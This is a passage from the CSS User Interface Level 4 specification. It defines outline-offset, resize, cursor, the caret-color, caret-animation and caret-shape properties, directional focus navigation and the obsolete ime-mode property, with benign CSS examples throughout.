> **Note:** Earlier versions of this specification had an additional `invert` value, performing a color inversion on the pixels on the screen. This is no longer supported, and was removed for lack of implementations (and of intent to implement) in modern user agents. See [CSS User Interface 3 § 4.4 Outline Colors: the outline-color property](#css-ui-4:outline-color) for details.

#### 3.5.  Offsetting the Outline: the `outline-offset` property {#css-ui-4:outline-offset}

By default, the outline is drawn starting just outside the border edge. However, it is possible to offset the outline and draw it beyond the border edge.

| Field | Value |
| --- | --- |
| Name: | **outline-offset** |
| [Value:](#css-values-4:value-defs) | `<length>` \| inset |
| [Initial:](#css-cascade-6:initial-values) | 0 |
| [Applies to:](#css-cascade-5:applies-to) | [all elements](#css-pseudo-4:generated-content) |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | N/A |
| [Computed value:](#css-cascade-6:computed) | absolute length or `inset` keyword. |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | by computed value |

****`<length>`****

: Outsets the outline from the border edge by the specified amount.

  > **Example:** For example, to leave 2 pixels of space between a focus outline and the element that has the focus or is active, the following rule can be used:
  >
  > ```
  > :focus,:active  { outline-offset: 2px }
  > ```

****inset****

: Insets the outline from the border edge using the used outline thickness as amount.

  When `outline-style` is set to auto, it can be used to display the user agent’s default outline inside the border-box, rather than outside where it would usually appear.

  Otherwise, it is equivalent to setting `outline-offset` to the negative of the `outline-width` value.

  To protect the user from fingerprinting of the user agent’s default outline style thickness, this value must always compute to itself rather than to an absolute length, regardless of the `outline-style` value.

Negative values and the `inset` value must cause the outline to shrink into the border box. Both the height and the width of the outside of the shape drawn by the outline should not become smaller than twice the computed value of the `outline-width` property to make sure that an outline can be rendered even with large negative values. User agents should apply this constraint independently in each dimension. If the outline is drawn as multiple disconnected shapes, this constraint applies to each shape separately.

### 4.   Resizing {#css-ui-4:resizing}

CSS2.1 provides a mechanism for controlling the appearance of a scrolling mechanism (e.g. scrollbars) on block container elements. This specification adds a mechanism to that for controlling user resizability of elements as well as the ability to specify text overflow behavior.

#### 4.1.  Resizing Boxes: the `resize` property {#css-ui-4:resize}

The `resize` property allows the author to specify whether or not an element is resizable by the user, and if so, along which axis/axes.

| Field | Value |
| --- | --- |
| Name: | **resize** |
| [Value:](#css-values-4:value-defs) | none \| both \| horizontal \| vertical \| block \| inline |
| [Initial:](#css-cascade-6:initial-values) | none |
| [Applies to:](#css-cascade-5:applies-to) | elements that are scroll containers and optionally replaced elements such as images, videos, and iframes |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | N/A |
| [Computed value:](#css-cascade-6:computed) | specified keyword |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | discrete |

****none****

: The UA does not present a resizing mechanism on the element, and the user is given no direct manipulation mechanism to resize the element.

****both****

: The UA presents a bidirectional resizing mechanism to allow the user to adjust both the height and the width of the element.

****horizontal****

: The UA presents a unidirectional horizontal resizing mechanism to allow the user to adjust only the width of the element.

****vertical****

: The UA presents a unidirectional vertical resizing mechanism to allow the user to adjust only the height of the element.

****block****

: The UA presents a unidirectional block-axis resizing mechanism to allow the user to adjust only the block size of the element.

****inline****

: The UA presents a unidirectional inline-axis resizing mechanism to allow the user to adjust only the inline size of the element.

Currently it is possible to control the appearance of the scrolling mechanism (if any) on an element using the `overflow` property (e.g. `overflow: scroll` vs. `overflow: hidden` etc.). The purpose of the `resize` property is to allow control over the appearance and function of the resizing mechanism (e.g. a resize box or widget) on the element.

> **Note:** The resizing mechanism is NOT the same as the scrolling mechanism, nor is it related to any UA mechanism for zooming. The scrolling mechanism allows the user to determine which portion of the contents of an element is shown. The resizing mechanism allows the user to determine the size of the element.

The `resize` property applies to elements that are scroll containers. UAs may also apply it, regardless of the value of the `overflow` property, to:

- Replaced elements representing images or videos, such as `img`, `video`, `picture`, `svg`, `object`, or `canvas`.
- The `iframe` element.

The effect of the `resize` property on generated content is undefined. Implementations should not apply the `resize` property to generated content.

> **Note:** The `resize` property may apply to generated content in the future if there is implementation of [Interface CSSPseudoElement](#css-pseudo-4:CSSPseudoElement-interface).

When an element is resized by the user, the user agent sets the `width` and `height` properties to px unit length values of the size indicated by the user in the element’s [style attribute](#css-style-attr-1:style-attribute) DOM, replacing existing property declaration(s), if any, without `!important`, if any.

If an element is resized in only one dimension, only the corresponding property is set, not both.

The precise direction of resizing (i.e. altering the top-left of the element or altering the bottom-right) may depend on a number of CSS layout factors, including whether the element is absolutely positioned, whether it is positioned using the `right` and `bottom` properties, whether the language of the element is right-to-left etc. The UA should consider the direction of resizing (as determined by CSS layout), as well as platform conventions and constraints, when deciding how to convey the resizing mechanism to the user.

The user agent must allow the user to resize the element with no other constraints than what is imposed by `min-width`, `max-width`, `min-height`, and `max-height`.

> **Note:** There may be situations in which user attempts to resize an element appear to be overridden or ignored, e.g. because of `!important` cascading declarations that supersede that element’s [style attribute](#css-style-attr-1:style-attribute) `width` and `height` properties in the DOM.

Changes to the computed value of an element’s `resize` property do not reset changes to the [style attribute](#css-style-attr-1:style-attribute) made due to user resizing of that element.

> **Example:** For example, to make iframes scrollable *and* resizable, the following rule can be used:
>
> ```
> iframe,object[type^="text/"],
> object[type$="+xml"],object[type="application/xml"]
> {
>   overflow:auto;
>   resize:both;
> }
> ```

### 5.  Pointing Devices and Keyboards {#css-ui-4:pointing-keyboard}

#### 5.1.  Pointer interaction {#css-ui-4:pointer-interaction}

##### 5.1.1.  Styling the Cursor: the `cursor` property {#css-ui-4:cursor}

| Field | Value |
| --- | --- |
| Name: | **cursor** |
| [Value:](#css-values-4:value-defs) | [`<cursor-image>`,]* `<cursor-predefined>` |
| [Initial:](#css-cascade-6:initial-values) | auto |
| [Applies to:](#css-cascade-5:applies-to) | [all elements](#css-pseudo-4:generated-content) |
| [Inherited:](#css-cascade-5:inherited-property) | yes |
| [Percentages:](#css-values-4:percentages) | N/A |
| [Computed value:](#css-cascade-6:computed) | as specified, except with any relative URLs converted to absolute |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | discrete |

This property specifies the type of cursor to be displayed for the pointing device when the cursor’s hotspot is within the element’s border edge.

> **Note:** As per [CSS Backgrounds 3 § 4.1 Curve Radii: the border-radius properties](#css-borders-4:border-radius), the border edge is affected by `border-radius`.

In the case of overlapping elements, which element determines the type of cursor is based on hit testing: the element determining the cursor is the one that would receive a click initiated from this position.

> **Note:** The specifics of hit testing are out of scope of this specification. Hit testing will hopefully be defined in a future revision of CSS or HTML.

User agents may ignore the cursor property over native user agent controls such as scrollbars, resizers, or other native UI widgets e.g. those that may be used inside some user agent specific implementations of form elements. User agents may also ignore the `cursor` property and display a cursor of their choice to indicate various states of the UA’s user interface, such as a busy cursor when the page is not responding, or a text cursor when the user is performing text selection.

> **Note:** [HTML] defines [special handling of image maps](https://html.spec.whatwg.org/multipage/rendering.html#image-maps-2) for the `cursor` property.

Values have the following meanings:

****`<cursor-image>`****

: The first (optional) component of the `cursor` property is a list of image-based cursors. If the user agent cannot handle the first cursor of a list of cursors, it must attempt to handle the second, etc. If the user agent cannot handle any of these author-defined cursors, it must use the keyword-based cursor at the end of the list.

  A `<cursor-image>` has the following syntax:

  ```css
  <cursor-image> = [ <url> | <url-set> ] <number>{2}?
  ```

  The user agent retrieves the cursor from the resource designated by the `<url>` or `<url-set>`. Conforming user agents may, instead of <url> and <url-set>, support `<image>` which is a superset.

  **<url-set>** is a limited version of `image-set()`, where the `<image>` sub-production is restricted to `<url>` only.

  The UA must support the following image file formats:

  - PNG, as defined in [PNG]
  - SVG, as defined in [SVG11], in [secure static mode](https://www.w3.org/TR/SVG2/conform.html#secure-static-mode) [SVG2], if it has a natural size.
  - any other non-animated image file format that they support for `<image>` in other properties, such as the `background-image` property

  In addition, the UA should support the following image file formats:

  - SVG, as defined in [SVG11], in [secure animated mode](https://www.w3.org/TR/SVG2/conform.html#secure-animated-mode) [SVG2], if it has a natural size.
  - any other animated image file format that they support for `<image>` in other properties, such as the `background-image` property

  The UA may also support additional file formats, including SVG, as defined in [SVG11], in secure static mode or secure animated mode [SVG2], even if it does not have a natural size.

  > **Note:** The CSS Working Group initially intended support for all SVG, naturally sized or not. Support for non-naturally sized SVG was downgraded from mandatory to optional due to a lack of implementations.

  > **Note:** For a number of years, the only file formats supported for cursors in common desktop browsers were the .ico and .cur file formats, as designed by Microsoft. Although this is no longer the case (PNG and SVG have broad support), for compatibility with legacy content, UAs are encouraged to support these, even though the lack of an open specification makes it impossible to have a normative requirement about these formats. Some information on these formats can be found [on Wikipedia](https://en.wikipedia.org/wiki/ICO_%28file_format%29).

  The default object size for cursor images is a UA-defined size that should be based on the size of a typical cursor on the UA’s operating system.

  The concrete object size is determined using the default sizing algorithm. If an operating system is **incapable** of rendering a cursor above a given size, cursors larger than that size must be shrunk to within the OS-supported size bounds, while maintaining the cursor image’s natural aspect ratio, if any.

  The optional pair of `<number>` values give the X and Y coordinates of the exact position within the image which is the pointer position (i.e., the hotspot), as offsets from the left/top of the image.

  > **Note:** This specification does not define how the coordinate systems of the various types of `<image>` are established, and defers these definitions to [CSS4-IMAGES].

  If the values are omitted, then the natural hotspot defined inside the image resource itself is used. If it has no natural hotspot, the top left corner of the image is used, as if `0 0` were provided.

  If the X or Y coordinates of the hotspot (whether specified explicitly or taken from the image) fall outside of the cursor image, they must be clamped (independently) to fit.

****`<cursor-predefined>`****

: The mandatory `<cursor-predefined>` keyword specifies a predefined cursor to use, or the *fallback* cursor to be used if `<url>`s were provided and none of them can be successfully used.

  See [§ 5.1.1.1 Predefined Cursors](#css-ui-4:predefined-cursors) for the full set of `<cursor-predefined>` keywords and their meanings.

> **Example:** Here is an example of using several cursor values.
>
> ```
> :link,:visited {
>   cursor: url(example.svg),
>     url(hyper.cur),
>     url(hyper.png) 2 3,
>     pointer
> }
> ```
>
> This example sets the cursor on all hyperlinks (whether visited or not) to an external SVG image to be used as a cursor. If that fails to load, user agents would simply skip to the next value and attempt to use the "hyper.cur" cursor. If that cursor format was also not supported, the UA could attempt to use the "hyper.png" cursor with the explicit hotspot. Finally, if the UA cannot load any of those image cursors, the UA would skip to the last value and render the `pointer` cursor.

###### 5.1.1.1.  Predefined Cursors {#css-ui-4:predefined-cursors}

The `<cursor-predefined>` production encompasses a broad selection of predefined cursors, present on most operating systems. Its syntax is:

```css
<cursor-predefined> = auto | default | none |
                context-menu | help | pointer | progress | wait |
                cell | crosshair | text | vertical-text |
                alias | copy | move | no-drop | not-allowed | grab | grabbing |
                e-resize | n-resize | ne-resize | nw-resize |
                s-resize | se-resize | sw-resize | w-resize |
                ew-resize | ns-resize | nesw-resize | nwse-resize |
                col-resize | row-resize |
                all-scroll |
                zoom-in | zoom-out
```

The `<cursor-predefined>` keywords have the following meanings and likely renderings:

**general purpose cursors**

: ****auto****

  : The UA determines the cursor to display based on the current context: `auto` behaves as `text` over selectable text or editable elements, and `default` otherwise.

  ****default****

  : The platform-dependent default cursor. Often rendered as an arrow.

  ****none****

  : No cursor is rendered for the element.

**links and status cursors**

: ****context-menu****

  : A context menu is available for the object under the cursor. Often rendered as an arrow with a small menu-like graphic next to it.

  ****help****

  : Help is available for the object under the cursor. Often rendered as a question mark or a balloon.

  ****pointer****

  : The cursor is a pointer that indicates a link.

  ****progress****

  : A progress indicator. The program is performing some processing, but is different from `wait` in that the user may still interact with the program. Often rendered as a spinning beach ball, or an arrow with a watch or hourglass.

  ****wait****

  : Indicates that the program is busy and the user should wait. Often rendered as a watch or hourglass.

**selection cursors**

: ****cell****

  : Indicates that a cell or set of cells may be selected. Often rendered as a thick plus-sign with a dot in the middle.

  ****crosshair****

  : A simple crosshair (e.g., short line segments resembling a "+" sign). Often used to indicate a two dimensional bitmap selection mode.

  ****text****

  : Indicates text that may be selected. Often rendered as a vertical I-beam. User agents may automatically display a horizontal I-beam/cursor (e.g. same as the `vertical-text` keyword) for vertical text, or for that matter, any angle of I-beam/cursor for text that is rendered at any particular angle.

  ****vertical-text****

  : Indicates vertical-text that may be selected. Often rendered as a horizontal I-beam.

**drag and drop cursors**

: ****alias****

  : Indicates an alias of/shortcut to something is to be created. Often rendered as an arrow with a small curved arrow next to it.

  ****copy****

  : Indicates something is to be copied. Often rendered as an arrow with a small plus sign next to it.

  ****move****

  : Indicates something is to be moved.

  ****no-drop****

  : Indicates that the dragged item cannot be dropped at the current cursor location. Often rendered as a hand or pointer with a small circle with a line through it.

  ****not-allowed****

  : Indicates that the requested action will not be carried out. Often rendered as a circle with a line through it.

  ****grab****

  : Indicates that something can be grabbed (dragged to be moved). Often rendered as the backside of an open hand.

  ****grabbing****

  : Indicates that something is being grabbed (dragged to be moved). Often rendered as the backside of a hand with fingers closed mostly out of view.

**resizing and scrolling cursors**

: ****e-resize** **n-resize** **ne-resize** **nw-resize** **s-resize** **se-resize** **sw-resize** **w-resize****

  : Indicates that some edge is to be moved. For example, the `se-resize` cursor is used when the movement starts from the south-east corner of the box.

  ****ew-resize** **ns-resize** **nesw-resize** **nwse-resize****

  : Indicates a bidirectional resize cursor.

  ****col-resize****

  : Indicates that the item/column can be resized horizontally. Often rendered as arrows pointing left and right with a vertical bar separating them.

  ****row-resize****

  : Indicates that the item/row can be resized vertically. Often rendered as arrows pointing up and down with a horizontal bar separating them.

  ****all-scroll****

  : Indicates that the something can be scrolled in any direction. Often rendered as arrows pointing up, down, left, and right with a dot in the middle.

**zooming cursors**

: ****zoom-in** **zoom-out****

  : Indicates that something can be zoomed (magnified) in or out, and often rendered as a magnifying glass with a "+" or "-" in the center of the glass, for `zoom-in` and `zoom-out` respectively.

###### 5.1.1.2.  Cursor of the canvas {#css-ui-4:canvas_cursor}

The document [canvas](#css2:the-canvas) is the infinite surface over which the document is rendered [CSS21]. Since no element corresponds to the canvas, in order to allow styling of the cursor when not over any element, the canvas cursor re-uses the root element’s cursor. However, if no boxes are generated for the root element (for example, if the root element has `display: none`), then the canvas cursor is the platform-dependent default cursor.

> **Note:** An element might be invisible but still generate boxes. For example, if the element has `visibility: hidden` but not `display: none`, boxes are generated for it and its cursor is used for the canvas.

#### 5.2.  Insertion caret {#css-ui-4:the-insertion-caret}

The **insertion caret** (or “caret” for short) is a visible indicator of the insertion point in an element that accepts text input, where text (and potentially other content) can be inserted by the user. The `caret-color`, `caret-animation`, and `caret-shape` properties give the author some amount of control over the appearance of the caret.

Text or elements are considered to **accept text input** if they are either an editable element or a descendent thereof, excluding any such element where the used value of `user-select` is `none`, as well as subtrees rooted at an HTML element with a `contentEditable` attribute set to `false`.

Some user agents have other user interface mechanisms with a similar appearance, also occasionally referred to as “carets”. For example, some UAs can show a “navigation caret”, which acts similarly to an insertion caret but can be moved around in non-editable text. The `caret-color`, `caret-animation`, and `caret-shape` properties are not intended to apply to such mechanisms nor outside of editable elements, though user agents may choose to take them into account. Whether to do so and to what extent is up to the user agent.

> **Note:** The cursor image shown when hovering over text when the `cursor` property is `auto`, or when hovering over an element where the `cursor` property is `text` or `vertical-text`, though it sometimes resembles a caret, is not a caret (it’s a cursor).

Within the context of this section, **character** is to be understood as *extended grapheme cluster*, as defined in [UAX29], and **visible character** means a character with a non-zero advance measure.

##### 5.2.1.  Coloring the Insertion Caret: the `caret-color` property {#css-ui-4:caret-color}

| Field | Value |
| --- | --- |
| Name: | **caret-color** |
| [Value:](#css-values-4:value-defs) | auto \| `<color>` [auto \| <color>]? |
| [Initial:](#css-cascade-6:initial-values) | auto |
| [Applies to:](#css-cascade-5:applies-to) | text or elements that accept text input |
| [Inherited:](#css-cascade-5:inherited-property) | yes |
| [Percentages:](#css-values-4:percentages) | N/A |
| [Computed value:](#css-cascade-6:computed) | The computed value for `auto` is `auto`. For `<color>` values, see [CSS Color 4 § 15. Resolving <color> Values](#css-color-4:resolving-color-values). |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | by computed value |

This property controls the color of the insertion caret. It takes one or two values. The first value has the following effects:

**auto**

: User agents should use `currentColor`. User agents may automatically adjust the color of caret to ensure good visibility and contrast with the surrounding content, possibly based on the currentColor, background, shadows, etc.

  > **Note:** When `caret-shape` is `block`, ensuring good visibility and contrast is best achieved with a UA-determined color other than `currentColor`.

**`<color>`**

: The caret is colored with the specified color.

> **Example:** a textarea with `caret-color:#00aacc;`  caret-color:#00aacc

The second value has no effect when `caret-shape` is `bar`, `underscore`, or `auto` behaving as either of these values. If `caret-shape` is `block`—​or `auto` behaving as `block`—​then it determines the color of the text overlapping the caret. If the second value is omitted, the behavior is the same as if `auto` had been specified.

**auto**

: User agents must automatically adjust the color of the text overlapping the caret to ensure good visibility and contrast between the text and the underlying `block` caret, if using `currentColor` would result in poor readability. The specifics of how to assess contrast and how to pick a sufficiently contrasty color are up to the user agent.

**`<color>`**

: The color of text overlapping the caret is the specified color.

  > **Note:** Authors wishing to ensure that the color of the text remains constant regardless of the position of a `block` caret can specify `currentColor` as the second value of `caret-color`.

Text considered to **overlap the caret** is the next visible character after the insertion point, if any.

> **Example:** This illustrates the effect of the second value of `caret-color` on `block` carets. In each of the sample renderings below, the insertion point is between the letters u and m.
>
> | 'caret-color:' | Sample rendering | Your browser (focus each cell to see the caret) |
> | --- | --- | --- |
> | `black` (or `black auto`) | Lorem ipsum | Lorem Ipsum |
> | `black yellow` | Lorem ipsum | Lorem Ipsum |
> | `black black` | Lorem ipsum | Lorem Ipsum |

Optionally, user agents may treat as overlapping only those parts of next visible character which visually intersect with the `block`, and adjust the color of those parts only.

##### 5.2.2.  Animation of the insertion caret: `caret-animation` {#css-ui-4:caret-animation}

| Field | Value |
| --- | --- |
| Name: | **caret-animation** |
| [Value:](#css-values-4:value-defs) | auto \| manual |
| [Initial:](#css-cascade-6:initial-values) | auto |
| [Applies to:](#css-cascade-5:applies-to) | text or elements that accept text input |
| [Inherited:](#css-cascade-5:inherited-property) | yes |
| [Percentages:](#css-values-4:percentages) | N/A |
| [Computed value:](#css-cascade-6:computed) | specified keyword |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | discrete |

On most platforms and in most UAs, the insertion caret blinks. This property allows the author to take control over the way the caret is animated.

****auto****

: The UA determines how the caret should be animated, if at all, as well as the speed of any such animation. It should match platform conventions and settings, and may be adjusted based on context.

  > **Note:** This is typically rendered as a blinking caret. Fading in and out instead of blinking is a variant that appears in some environments.

****manual****

: The UA must not animate the caret.

  > **Note:** This is only about UA-driven animations of the caret. When CSS animations are used to animate the caret color, they apply normally.

> **Note:** It is recommended for authors to stop the caret from blinking or fading using `caret-animation: manual` when applying custom animations using [CSS3-ANIMATIONS], to prevent the UA’s animation and the CSS animation to interfere.

> **Note:** See [Guideline 2.3: Seizures: Do not design content in a way that is known to cause seizures](https://www.w3.org/TR/WCAG20/#seizure) [WCAG20].

> **Example:** A user who is disturbed by or has adverse reactions to blinking or flashing visuals may want to make all carets static and non-blinking, regardless of platform defaults or author settings. This can be accomplished with the following rule in the user stylesheet.
>
> ```
> /* prevent the caret from blinking/flashing */
> :read-write { caret-animation: manual !important; }
>
> /* prevent changes of caret-color, including animations */
> :read-write { caret-color: auto !important; }
> ```

UAs that do not have an editable user stylesheet should provide a setting to disable [blinking](https://www.w3.org/TR/WCAG20/#blinksdef), [flashing](https://www.w3.org/TR/WCAG20/#flash-def), and animated carets. UAs that do have an editable user stylesheet may want to provide this setting as well. See [WCAG] [Guideline 2.2](https://www.w3.org/TR/WCAG20/#time-limits-pause) and [Guideline 2.3](https://www.w3.org/TR/WCAG20/#seizure) for details.

> **Example:** Typically, the caret blinks on and off. This makes it alternate between 2 colors.
>
> ```
> textarea {
>   caret-animation: manual;
>   caret-color: blue;
>   animation: caret-alternate 2s step-end infinite;
> }
> @keyframes caret-alternate {
>   50% { caret-color: red; }
> }
> ```
>
> The simulated rendering below illustrates how this is expected to look.
>
> Text area with color-alternating caret
>
> Focus the element below to see how your browser renders it.
>
> Text area with color-alternating caret

> **Advisement:** If a user agent is unwilling to yield control of caret animations to page authors and would not honor `caret-animation: manual`, it must not implement the property at all.
>
> > **Note:** This enables authors to use `@supports (caret-animation: manual) { … }` to gate code that would depend on this functionality. See [CSS-CONDITIONAL-3].

##### 5.2.3.  Shape of the insertion caret: `caret-shape` {#css-ui-4:caret-shape}

| Field | Value |
| --- | --- |
| Name: | **caret-shape** |
| [Value:](#css-values-4:value-defs) | auto \| bar \| block \| underscore |
| [Initial:](#css-cascade-6:initial-values) | auto |
| [Applies to:](#css-cascade-5:applies-to) | text or elements that accept text input |
| [Inherited:](#css-cascade-5:inherited-property) | yes |
| [Percentages:](#css-values-4:percentages) | N/A |
| [Computed value:](#css-cascade-6:computed) | specified keyword |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | by computed value |

This property allows authors to specify the desired shape of the insertion caret.

****auto****

: The UA determines the shape of the caret. It should match platform conventions, and may be adjusted based on context. For example, if a UA switches between insert mode and overtype mode when the user presses the *insert* key on their keyboard, it may show a `bar` caret in insert mode, and a `block` caret in overtype mode.

****bar****

: The UA must render the insertion caret as a thin bar placed at the insertion point. This means it is between, before, or after characters, not over them. It should be perpendicular to the inline progression direction, although UAs may render it slanted when inserting italic or oblique text.

****block****

: The UA must render the insertion caret as a rectangle overlapping the next visible character following the insertion point. If there is no visible character after the insertion point, the UA must render the caret after the last visible character. UAs may render it as a slanted rectangle when inserting italic or oblique text.

****underscore****

: The UA must render the insertion caret as a thin line under (as defined in [CSS-WRITING-MODES-3]) the next visible character following the insertion point. If there is no visible character after the insertion point, the UA must render the caret after the last visible character.

The width of the `block` and `underscore` carets should be the advance measure of the next visible character after the insertion point, or `1ch` if there is no next visible character or if this information is impractical to determine.

When determining the orientation and appearance of the caret, UAs must take into account the writing mode [CSS-WRITING-MODES-3] and must apply transformations [CSS-TRANSFORMS-1]. If the edited text is laid out on a path, for instance by using the SVG `textPath` element, UAs should also account for this.

The thickness of `bar` and `underscore` carets—​as well as that of `auto` carets with a similar rendering—​is determined by the user agent. When practical, the user agent should choose a thickness that ensures the caret remains visible even if it has been scaled down via means such as transformations [CSS-TRANSFORMS-1].

When there is not enough room at the end of a line to display the caret positioned there, the user agents should still display it, even if that means means painting past the bounds of the scrollable overflow area; user agents may impose limits on this and clip as necessary. User agents may also visually reposition a caret in order to display it within the scrollport if it would otherwise be invisible.

The stacking position of the caret is left undefined within the following constraints:

- The caret must not be obscured by the background of the element.
- UAs must render `block` carets so that the character it overlaps with is not obscured by the caret.

> **Example:** This illustrates the typical appearance of the various caret shapes. In each of the sample renderings below, the insertion point is between the letters u and m.
>
> | `caret-shape` | Sample rendering | Your browser (focus each cell to see the caret) |
> | --- | --- | --- |
> | `bar` | Lorem ipsu​m | Lorem Ipsum |
> | `block` | Lorem ipsum | Lorem Ipsum |
> | `underscore` | Lorem ispum | Lorem Ipsum |

> **Example:** `underscore` or `block` carets are commonly used in terminals and command lines, as in this example.
>
> ```
> .console {
>   caret-shape: underscore;
>   background: black;
>   color: white;
>   font-family: monospace;
>   padding: 1ex;
> }
> ```
>
> The simulated rendering below illustrates how this is expected to look.
>
> ```
> user@host:css-ui-4 $ ls -a
> . .. Overview.bs Overview.html
> user@host:css-ui-4 $  
> ```
>
> Focus the element below to see how your browser renders it.
>
> ```
> user@host:css-ui-4 $ ls -a
> . .. Overview.bs Overview.html
> user@host:css-ui-4 $ 
> ```

##### 5.2.4.  Insertion caret shorthand: `caret` {#css-ui-4:caret}

| Field | Value |
| --- | --- |
| Name: | **caret** |
| [Value:](#css-values-4:value-defs) | `<'caret-color'>` \|\| `<'caret-animation'>` \|\| `<'caret-shape'>` |
| [Initial:](#css-cascade-6:initial-values) | auto |
| [Applies to:](#css-cascade-5:applies-to) | text or elements that accept text input |
| [Inherited:](#css-cascade-5:inherited-property) | yes |
| [Percentages:](#css-values-4:percentages) | N/A |
| [Computed value:](#css-cascade-6:computed) | see individual properties |
| [Animation type:](#web-animations-1:animation-type) | see individual properties |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |

This property is a shorthand for setting `caret-color`, `caret-animation`, and `caret-shape` in one declaration. Omitted values are set to their initial values.

> **Example:** This example illustrates using the various caret-related properties in combination. They are used here to simulate the appearance of the caret on an old phosphor computer monitor.
>
> ```
> #old-screen {
>   caret: block manual;
>   animation: old-caret 2s infinite;
>   /*styling of the screen omitted for brevity */
> }
> @keyframes old-caret {
>   from, 50% { caret-color: green; }
>   75%, to { caret-color: transparent; }
> }
> ```
>
> The simulated rendering below illustrates how this is expected to look.
>
> >
>
> Focus the element below to see how your browser renders it.
>
> >

#### 5.3.  Keyboard control {#css-ui-4:keyboard}

##### 5.3.1.  Directional Focus Navigation: the `nav-up`, `nav-right`, `nav-down`, `nav-left` properties {#css-ui-4:nav-dir}

| Field | Value |
| --- | --- |
| Name: | **nav-up**, **nav-right**, **nav-down**, **nav-left** |
| [Value:](#css-values-4:value-defs) | auto \| `<id>` [ current \| root \| `<target-name>` ]? |
| [Initial:](#css-cascade-6:initial-values) | auto |
| [Applies to:](#css-cascade-5:applies-to) | all enabled elements |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | N/A |
| [Computed value:](#css-cascade-6:computed) | as specified |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | discrete |

**auto**

: The user agent automatically determines which element to navigate the focus to in response to directional navigational input.

****`<id>`****

: The `<id>` value is an ID selector [SELECT]. In response to directional navigation input corresponding to the property, the focus is navigated to the first element in tree order matching the selector.

  If this refers to the currently focused element, the directional navigation input respective to the nav- property is ignored — there is no need to refocus the same element.

  If no element matches the selector, the user agent automatically determines which element to navigate the focus to.

  If the focus is navigated to an element that was not otherwise focusable, it becomes focusable only as the result of this directional navigation, and the `:focus` pseudo-class matches the element while it is focused as such.

  > **Note:** there were other options under consideration for such "not otherwise focusable" elements, including focus to the next otherwise focusable element in the document tree (including descendants of such a not otherwise focusable element). Input on such other options is welcome and explicitly solicited, especially from implementation experiences and author experience using the directional navigation properties in their content.

****`<target-name>`****

: The <target-name> parameter indicates the target frame for the focus navigation. It is a `<string>` and it MUST NOT start with the underscore "_" character. Error handling: if it does start with an underscore, "_parent" navigates to the parent frame, "_root" is treated as `root`, and other values navigate to a frame by that name if it exists. If the specified target frame does not exist, the parameter will be treated as the keyword `current`, which means to simply use the frame that the element is in. The keyword `root` indicates that the user agent should target the full window.

User agents for devices with directional navigation keys respond by navigating the focus according to four respective nav-* directional navigation properties (nav-up, nav-right, nav-down, nav-left). This specification does not define which keys of a device are directional navigational keys.

> **Note:** Typical personal computers have keyboards with four arrow keys. One possible implementation would be to use those four arrow keys for directional navigation. For accessibility and user convenience, user agents should allow configuration of which keys on a keyboard are used for directional navigation.

> **Example:** ###### 5.3.1.1. Example: positioned buttons {#css-ui-4:example-positioned-buttons}
>
> Here is an example of buttons positioned in a diamond shape whose directional focus navigation is set in such a way to navigate the focus clockwise (or counter-clockwise) around the diamond shape when the user chooses to navigate directionally.
>
> ```
> button { position:absolute }
>
> button#b1 {
>   top:0; left:50%;
>   nav-right:#b2; nav-left:#b4;
>   nav-down:#b2; nav-up:#b4;
> }
>
> button#b2 {
>   top:50%; left:100%;
>   nav-right:#b3; nav-left:#b1;
>   nav-down:#b3; nav-up:#b1;
> }
>
> button#b3 {
>   top:100%; left:50%;
>   nav-right:#b4; nav-left:#b2;
>   nav-down:#b4; nav-up:#b2;
> }
>
> button#b4 {
>   top:50%; left:0;
>   nav-right:#b1; nav-left:#b3;
>   nav-down:#b1; nav-up:#b3;
> }
> ```
>
> Whatever markup sequence the buttons may have (which is not specified in this example) is irrelevant in this case because they are positioned, and yet, it is still important to ensure focus navigation behaviors which relate reasonably to the specified layout.

> **Example:** ###### 5.3.1.2. Example: moving focus to inside a frame {#css-ui-4:example-moving-focus-to-inside-a-frame}
>
> Moving the focus to an element in a specific frame requires both the element’s id and the frame’s name.
>
> This example shows how to make navigating left from the button with id "foo" move the focus to the element with id "bar" within the frame named "sidebar".
>
> ```
> button#foo { nav-left: #bar "sidebar"; }
> ```

##### 5.3.2.  Obsolete: the ime-mode property {#css-ui-4:input-method-editor}

`ime-mode` is a property somewhat implemented in some browsers that is problematic and officially obsoleted by this specification and its predecessor [CSS-UI-3].

User agents should not support the `ime-mode` property.

Authors must not use the ime-mode property.

Users may use the ime-mode property only for repair use cases where they have to work around bad sites and legacy implementations, e.g. with a user style sheet rule like:

> **Example:** user preference
>
> ```
> input[type=password] {
>       ime-mode: auto !important;
>     }
> ```

This example CSS may be placed into a user style sheet file to force password input fields to behave in a default manner.

This specification deliberately does not attempt to document the functionality of legacy ime-mode implementations nor what they specifically support because it does not make sense to pursue or recommend any such path.

> **Note:** there are several [HTML5] features which authors should use to provide information to user agents that allow them to provide a better input user experience:
>
> - The global `lang` attribute
> - The `inputmode`, `pattern`, and `type` attributes of the input element

### 6.  User Interaction {#css-ui-4:user-interaction}

#### 6.1.  Controlling content selection {#css-ui-4:content-selection}

The `user-select` property enables authors to specify which elements in the document can be selected by the user and how. This allows for easier interactions when not all elements are equally useful to select, avoiding accidental selections of neighboring content.

| Field | Value |
| --- | --- |
| Name: | **user-select** |
| [Value:](#css-values-4:value-defs) | auto \| text \| none \| contain \| all |
| [Initial:](#css-cascade-6:initial-values) | auto |
| [Applies to:](#css-cascade-5:applies-to) | all elements, and optionally to the `::before` and `::after` pseudo-elements |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | n/a |
| [Computed value:](#css-cascade-6:computed) | specified keyword |
